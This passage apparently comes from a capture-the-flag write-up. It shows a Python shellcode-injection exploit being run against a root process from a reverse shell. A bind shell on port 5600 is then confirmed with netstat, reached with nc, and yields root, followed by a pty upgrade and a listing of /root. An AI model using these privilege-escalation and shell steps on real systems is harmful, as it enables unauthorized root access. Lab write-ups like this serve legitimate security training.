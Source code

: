 And now we jump back into our reverse shell and lets run that python exploit file.

```
saket@ubuntu:/tmp$ which python
which python
saket@ubuntu:/tmp$ python3 exploit.py 945
python3 exploit.py 945
Instruction Pointer: 0x0
Injecting Shellcode at: 0x0
Traceback (most recent call last):
  File "exploit.py", line 74, in <module>
    for i in xrange(0,len(shellcode),4):
NameError: name 'xrange' is not defined
saket@ubuntu:/tmp$ python2 exploit.py 945
python2 exploit.py 945
Instruction Pointer: 0x7fe67d2040daL
Injecting Shellcode at: 0x7fe67d2040daL
Shellcode Injected!!
Final Instruction Pointer: 0x7fe67d2040dcL
```

Check locally to see if there is now something listening on port 5600

```
saket@ubuntu:/tmp$ netstat -anlp
netstat -anlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5600            0.0.0.0:*               LISTEN      -                   
tcp        1      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      808/python3         
tcp        0      0 192.168.1.165:53        0.0.0.0:*               LISTEN      -   
...          
```

BOOOM

Now lets connect and see what happens

```
c -nv $TARGETIP 5600
(UNKNOWN) [192.168.1.165] 5600 (?) open
whoami
root
python2 -c 'import pty; pty.spawn("/bin/bash")'
root@ubuntu:/# cd /root
cd /root
root@ubuntu:/root# ls -la
ls -la
total 2744
drwx------  8 root root    4096 Jun 28 22:18 .
drwxr-xr-x 20 root root    4096 May 29 05:34 ..
-rw-------  1 root root     680 Jun 28 22:19 .bash_history
-rw-r--r--  1 root root    3106 Dec  5  2019 .bashrc
drwx------  8 root root    4096 Jun 28 21:31 .cache
drwx------ 11 root root    4096 Jun 28 20:34 .config
drwx------  3 root root    4096 Jun  2 20:58 .dbus
drwxr-xr-x  3 root root    4096 Jun 26 07:24 .gem
drwxr-xr-x  3 root root    4096 May 29 05:52 .local
-rw-r--r--  1 root root     161 Dec  5  2019 .profile
-rw-r--r--  1 root root      66 Jun 26 22:56 .selected_editor
-rw-r--r--  1 root root     328 Jun 27 05:20 .wget-hsts
-rwxrw-rw-  1 root root 2749141 Jun 28 21:29 App.zip
```